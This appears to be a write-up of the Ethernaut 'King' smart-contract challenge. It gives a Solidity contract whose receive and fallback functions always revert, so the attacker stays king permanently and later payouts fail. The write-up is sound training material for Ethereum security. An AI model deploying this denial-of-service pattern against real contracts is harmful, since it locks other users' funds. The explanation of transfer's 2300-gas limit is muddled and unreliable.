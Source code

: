 # [King](https://ethernaut.openzeppelin.com/level/0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5)

The ponzi starts with 0.001 ether. We can exploit the game by giving an equal/larger ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract OneWayForward {  

  receive () external payable {
  revert("Im the king!");
  }

  fallback () external payable {
  revert("Im the king!");
  }
  
  function forward(address payable _to) public payable {
  (bool sent, ) = _to.call{value: msg.value}("");
  require(sent, "forwarded call failed");
  }

}
```

## Preventing Money Transfer

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

## Call vs. Transfer

Another important point: we used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas is enough for the code to run on their side; so we must forward all our gas to them with `call`.

